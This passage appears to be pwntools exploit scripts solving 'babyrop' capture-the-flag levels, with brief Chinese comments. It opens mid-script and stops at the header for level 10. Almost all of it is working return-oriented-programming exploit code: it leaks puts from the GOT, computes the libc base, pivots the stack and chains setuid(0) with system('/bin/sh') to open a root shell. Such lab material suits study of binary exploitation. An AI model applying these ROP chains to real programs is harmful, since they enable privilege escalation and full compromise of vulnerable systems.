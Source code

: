 p.recvuntil("Leaving!\n")
puts_addr=p.recv(6)+b'\x00\x00'
print(hex(u64(puts_addr)))

basic_addr=u64(puts_addr)-puts_offset
sys=basic_addr+libc.symbols["system"]
bin_sh=basic_addr+bin_sh_offset

#调用system前，调用setuid(0)

payload=b'\x90'*0x48+p64(rdi_ret)+p64(bin_sh)+p64(rsi_r15_ret)+p64(0)+p64(1)+p64(sys)
p.send(payload)

p.interactive()

level 9.0
#二次栈迁移，第二次的调出来的
from pwn import *

p=process(['/challenge/babyrop_level9.0'])
elf=ELF("/challenge/babyrop_level9.0")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

rdi_ret=0x401fe3
rbp_ret=0x401ce2
r15_ret=0x401fe1
leave_ret=0x401743

re_run=0x401ce5
bin_sh_offset=0x1b75aa
puts_offset=libc.symbols["puts"]
setuid_offset=libc.symbols["setuid"]
sys_offset=libc.symbols["system"]
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]

payload=p64(rbp_ret)+p64(0x4150e0+0x10)+p64(leave_ret)+p64(rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(re_run)
p.send(payload)

p.recvuntil("Leaving!\n")
puts_addr=p.recv(6)+b'\x00\x00'
print(hex(u64(puts_addr)))

basic_addr=u64(puts_addr)-puts_offset
print(hex(basic_addr))
sys_add=basic_addr+sys_offset
setuid_add=basic_addr+setuid_offset
bin_sh=bin_sh_offset+basic_addr

payload=p64(rbp_ret)+p64(0x4150e0+0x50)+p64(leave_ret)+b'a'*0x40+p64(rdi_ret)+p64(0)+p64(r15_ret)+p64(0)*2+p64(setuid_add)+p64(rdi_ret)+p64(bin_sh)+p64(r15_ret)+p64(0)*2+p64(sys_add)
p.send(payload)

p.interactive()

level 10
from pwn import *
